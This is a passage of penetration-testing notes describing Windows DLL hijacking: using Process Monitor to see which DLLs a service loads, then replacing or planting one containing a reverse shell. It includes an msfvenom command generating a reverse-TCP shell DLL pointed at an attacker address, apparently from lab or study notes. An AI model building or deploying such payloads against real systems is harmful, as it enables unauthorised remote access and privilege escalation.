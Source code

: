 	![image.png](../_resources/a7373bafdf43046a986a11c1143da172.png)

	- Deselect the "Show registry activity" and "Show network activity"

	![image.png](../_resources/5339d8285d9cfc82f2064cbc1d9c3eb8.png)

	- Start the capture
	- Start the service

			net start dllsvc

	- Check which DLLs are invoked by the service.

		- If we can replace a DLL that is runned by the service, then we just need to create a new DLL file with a reverse shell inside of it.

		OR

		- If a DLL is missing from the system, and we have access to a folder within the PATH that Windows searches for DLLs in.

				msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=2222 -f dll -o output/path/evil-dll.dll

# SQL
## SQL Tools
### MSSQL-CLI
https://github.com/dbcli/mssql-cli/blob/master/doc/usage_guide.md
